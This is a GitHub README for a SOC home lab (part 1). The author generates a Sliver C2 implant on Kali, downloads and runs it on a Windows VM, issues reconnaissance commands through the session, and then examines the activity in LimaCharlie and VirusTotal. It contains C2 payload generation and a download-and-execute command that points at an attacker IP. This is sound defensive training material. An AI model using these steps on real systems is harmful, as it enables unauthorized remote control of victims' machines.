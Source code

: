 # SOC-Lab
This is a SOC focused home lab that will use a variety of tools including Sliver to simulate an attack on a vulnerable machine. During this lab the vulberable machine is the Windows VM, attacking machine will be a Kali Linux, and the monitoring tool will be LimaCharlie. 

# As a disclaimer, the original idea for this lab comes from Eric Capuano. Setting up the lab environment has been purposefully left out and I highly suggest anyone interested in replicating this lab visit his Substack page(linked below)!

[Eric's Substack](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

# SOC-Lab

## Objective

The SOC Lab is designed to showcase my skills in a simulated real world environment with an attacker(Linux) and Defender(Windows). The SOC home lab is designed to simulate real-world cybersecurity environments, allowing me to practice identifying, investigating, and mitigating cyber threats in a controlled setting. Its primary objective is to provide hands-on experience with security tools, techniques, and processes, helping me to develop practical skills in network monitoring, threat detection, and response strategies. Additionally, it aims to foster a deeper understanding of the cybersecurity landscape, including the tactics, techniques, and procedures (TTPs) used by attackers. By recreating the challenges faced by professional SOCs, this home lab serves as a valuable educational platform for an aspiring cybersecurity professional, such as myself, enhancing my readiness for careers in the rapidly evolving field of information security.
### Skills Learned

- Learning to identify and analyze potential security threats in network traffic and logs, using tools like LimaCharlie.
- Developing the skills necessary to effectively respond to and manage security incidents, including containment strategies, eradication of threats, and recovery processes.
- Gaining experience in monitoring network traffic for suspicious activity and conducting forensic analysis to understand the nature and impact of security breaches.
- Learning about the development and implementation of security policies and best practices to protect organizational assets and data.
- Acquiring the ability to use threat intelligence feeds and sources to anticipate and defend against potential cyber attacks, understanding the tactics, techniques, and procedures used by cybercriminals

### Tools Used


- VMWare to host the Virtual Environments. 
- LimaCharlie for network monitoring and management. 
- Linux VM to serve as attacking machine.
- Windows VM to serve as Victim machine.
- Sliver, an open source red team tool, used to launch payloads and maintain persistence on victims machine.

  ### Steps: Part 1

  1. First, I drop into a root shell and change directory to our Sliver install
       - sudo su
       - cd /opt/sliver
  2. Next I launch sliver server
       - sliver-server

    ![4 Sliver](https://github.com/Lantern76/SOC-Lab/assets/119342094/6a6d3fb1-6f62-448a-97e2-3638c10332a8)

  3. Generate our first C2 session payload (within the Sliver shell) using the attacking machines IP address.
       - generate --http  --save /opt/sliver

![2 generate payload](https://github.com/Lantern76/SOC-Lab/assets/119342094/e864ec91-db64-4aa6-a74f-c910cf9d44e1)

  4. Confirm the new implant configuration
       - implants

  ![3](https://github.com/Lantern76/SOC-Lab/assets/119342094/b7064aaf-9dca-4a98-be00-011422b3f89e)

  5. Now I have a C2 payload I can drop onto my Windows VM. I’ll do that next. First, I will go ahead and exit Sliver 
       - exit
  6. To easily download the C2 payload from the Linux VM to the Windows VM, I will use a little python trick that spins up a temporary web server
       - cd /opt/sliver
       - python3 -m http.server 80
  7. Next is to switch to the Windows VM and launch an Administrative PowerShell console
  8. Now I run the following command to download my C2 payload from the Linux VM to the Windows VM, using my own Linux VM IP and the name of the payload I generated in Sliver, RAPID_PLENTY.exe, a few steps prior
       - IWR -Uri http://[Linux_VM_IP]/REGULAR_PLENTY.exe -Outfile C:\Users\User\Downloads\REGULAR_PLENTY.exe
  9. Now that the payload is on the Windows VM, I must switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback
       - First I need to terminate the python web server by pressing Ctrl + c
       - Next is to relaunch Sliver
           - sliver-server
        - Begin the Sliver HTTP listener
            -http
  10. Return to the Windows VM and launch a powershell session as an administrator. Afterwords launch the payload
        - C:\Users\User\Downloads\RAPID_PLENTY.exe
  11. Within a few moments, I should see my session check in on the Sliver server

  ![6 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/4383b004-3e19-43af-93b2-1d01dce94c0b)

  12. I then need to verify my session in Sliver, taking note of the Session ID
        - sessions

  ![5 sliver server](https://github.com/Lantern76/SOC-Lab/assets/119342094/0ae65380-7053-44f1-b4d8-c4bf2a50fd3a)

  13. To interact with my new C2 session, I type the following command into the Sliver shell, swapping [session_id] with one shown in image

  ![7 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/b0ef3872-d516-4add-833b-2be37bf1f975)

  14. I am now interacting directly with the C2 session on my Windows VM. Let’s run a few basic commands to get our bearing on the victim host
        - Get basic info about the session
            - info
        - Find out what user my implant is running as, and learn it’s privileges
            - whoami
            - getprivs
        - As a side note, since the implant was run with admin rights, you’ll notice we have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” 

![1](https://github.com/Lantern76/SOC-Lab/assets/119342094/8024c4fd-f411-4b01-9c68-112830e5e7d9)

  15. Identify our implant’s working directory
        - netstat
  16. Identify the running processes on the remote system
        - ps -T
        - Fun tip, Sliver will higlight its own processin green and any defensive tools in red
  17. Let’s hop into the LimaCharlie web UI and check out some basic features
        - Click “Sensors” on left menu
        - Click your active Windows sensor

![8 LimaCharlie sesnsors](https://github.com/Lantern76/SOC-Lab/assets/119342094/8b526208-145a-4e70-9ee4-05f4a84f73c7)

  18. On the new left-side menu for this sensor, click “Processes”

![9 LimaCharlie Processes](https://github.com/Lantern76/SOC-Lab/assets/119342094/15ca7ee1-39c1-42b1-94a3-ec9ef085f81c)

  19. Now I need to click the “Network” tab on the left-side menu

![10 LimaCharlie Network](https://github.com/Lantern76/SOC-Lab/assets/119342094/e193649e-3823-4b4e-8e02-4b8837e32539)

  20. Next I click on the “File System” tab on the left-side menu

![11 LimaCharlie file system](https://github.com/Lantern76/SOC-Lab/assets/119342094/4c04d6ad-1664-4c01-b43e-bdaff3fbcad1)

  21. Finally, I inspect the hash of the suspicious executable by scanning it with VirusTotal

![12 Virus total ](https://github.com/Lantern76/SOC-Lab/assets/119342094/afe0a49c-c917-4039-ad15-ecf695603985)


### That concludes part 1 of the home SOC lab. Part 2 will be uploaded soon and will countinue below :) 


































  
   
